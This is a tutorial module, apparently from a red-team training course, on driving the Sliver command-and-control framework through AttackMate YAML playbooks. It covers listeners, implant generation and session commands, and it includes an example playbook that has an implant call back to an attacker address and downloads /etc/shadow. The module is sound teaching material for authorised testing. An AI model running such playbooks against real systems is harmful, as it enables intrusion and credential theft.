

# Module 6: Sliver C2

## What is Sliver?

[Sliver](https://github.com/BishopFox/sliver) is an open-source Command and Control framework. It is designed as a modern, operator-focused alternative to Cobalt Strike and Metasploit's C2 capabilities.

Key characteristics:
- **Multi-protocol**: supports mTLS, WireGuard, HTTP/S, and DNS as C2 transports
- **Cross-platform**: generates implants for Linux, Windows, and macOS
- **Operator-focused**: built-in multiplayer mode, named operators, and access control
- **Evasion features**: optional obfuscation and encryption, configurable jitter for beacons

Sliver is frequently used in real red team engagements where a longer-term, stealthier foothold is needed, as opposed to the more detection-obvious Metasploit sessions.

> **Further reading:** [Sliver documentation](https://sliver.sh/docs) and the [Sliver GitHub repository](https://github.com/BishopFox/sliver).

---

## Sliver Concepts



### Implants

An implant is the binary that runs on the target. It communicates back to the Sliver server using one of the supported protocols. Each implant has a unique name assigned at generation time.

### Sessions

A **session** is an active, persistent connection from an implant. Commands are executed in near real-time, similar to an interactive shell. Sessions are noisier on the network.

### Beacons

A **beacon** is an implant that checks in periodically (e.g., every 60 seconds) rather than maintaining a constant connection. Between check-ins, the target machine has no outbound connection to the C2 server. Beacons are quieter and harder to detect via network monitoring.

In AttackMate, the `IsBeacon: True` flag on `generate_implant` creates a beacon implant. Interaction with beacons uses the same `sliver-session` command type.

---

## Sliver Configuration in AttackMate

AttackMate connects to the Sliver server using an **operator configuration file** generated by the Sliver server. This file contains the TLS certificates and server address for the operator's connection.

```yaml
# config.yml
sliver_config:
  config_file: /home/user/.sliver-client/configs/operator.cfg
```

Generate the operator config from the Sliver server console:
```
sliver > new-operator --name trainee --lhost 172.17.0.127
```

---

## The `sliver` Command Type

The `sliver` type manages the Sliver server: creating listeners and generating implants.

### Starting an HTTPS Listener

```yaml
- type: sliver
  cmd: start_https_listener
  host: 0.0.0.0
  port: "443"
  persistent: False
```

| Option | Default | Description |
|---|---|---|
| `host` | `0.0.0.0` | Address to bind |
| `port` | `443` | Listening port |
| `persistent` | `False` | Persist listener across Sliver server restarts |
| `acme` | `False` | Use ACME (Let's Encrypt) for TLS certificate |

### Generating an Implant

```yaml
- type: sliver
  cmd: generate_implant
  name: trainee-implant
  c2url: https://172.17.0.127
  target: linux/amd64
  format: EXECUTABLE
  filepath: /tmp/trainee-implant
  IsBeacon: False
```

After the command runs, `$LAST_SLIVER_IMPLANT` is set to the path where the implant was saved.

| Option | Default | Description |
|---|---|---|
| `name` | (required) | Unique name for this implant |
| `c2url` | (required) | C2 server URL the implant will connect to |
| `target` | `linux/amd64` | OS and architecture: `linux/amd64`, `windows/amd64`, `darwin/arm64`, etc. |
| `format` | `EXECUTABLE` | `EXECUTABLE`, `SHARED_LIB`, `SERVICE`, `SHELLCODE` |
| `filepath` | None | Where to save the implant on the attacker machine |
| `IsBeacon` | `False` | Generate a beacon instead of a session implant |
| `BeaconInterval` | `120` | Check-in interval in seconds (beacons only) |

---

## The `sliver-session` Command Type

Once an implant connects back, use `sliver-session` to interact with it.

```yaml
- type: sliver-session
  session: trainee-implant
  cmd: ps
```

The `session` field is the implant name (as given in `generate_implant`). The `cmd` field determines the action.

### Available Commands

| `cmd` | Options | Description |
|---|---|---|
| `ps` | | List running processes |
| `pwd` | | Current working directory |
| `ls` | `remote_path` | List directory |
| `cd` | `remote_path` | Change directory |
| `execute` | `exe`, `args` | Run a command on the target |
| `upload` | `local_path`, `remote_path` | Upload a file to the target |
| `download` | `remote_path`, `local_path` | Download a file from the target |
| `netstat` | | Network connections |
| `ifconfig` | | Network interfaces |
| `rm` | `remote_path` | Delete a file |
| `terminate` | `pid` | Kill a process |
| `process_dump` | `pid`, `local_path` | Dump process memory |

### Example: Post-Exploitation with Sliver

```yaml
vars:
  TARGET: 172.17.0.106
  ATTACKER: 172.17.0.127

commands:
  # Start the HTTPS listener
  - type: sliver
    cmd: start_https_listener
    port: "443"

  # Generate the implant
  - type: sliver
    cmd: generate_implant
    name: target-implant
    c2url: https://$ATTACKER
    target: linux/amd64
    filepath: /tmp/implant

  # (deliver and execute the implant on the target by other means)
  # (wait for check-in, then interact with the session)

  # Enumerate processes
  - type: sliver-session
    session: target-implant
    cmd: ps

  # Download a sensitive file
  - type: sliver-session
    session: target-implant
    cmd: download
    remote_path: /etc/shadow
    local_path: /tmp/stolen_shadow
```

---

## Sliver vs. Metasploit: When to Use Which

| | Metasploit | Sliver |
|---|---|---|
| **Best for** | Rapid exploitation, known CVEs, CTFs | Persistent access, red team ops, stealth |
| **Protocol** | TCP (raw) | mTLS, HTTP/S, DNS, WireGuard |
| **Implant noise** | High (constant connection) | Low (beacon mode) |
| **Evasion** | Limited | Built-in obfuscation options |
| **Post-exploitation** | Large module library | Focused built-in commands |
| **AttackMate support** | `msf-module`, `msf-session`, `msf-payload` | `sliver`, `sliver-session` |

In practice, attackers (and red teams) often use both: Metasploit for initial exploitation, then Sliver for a persistent, quieter foothold.
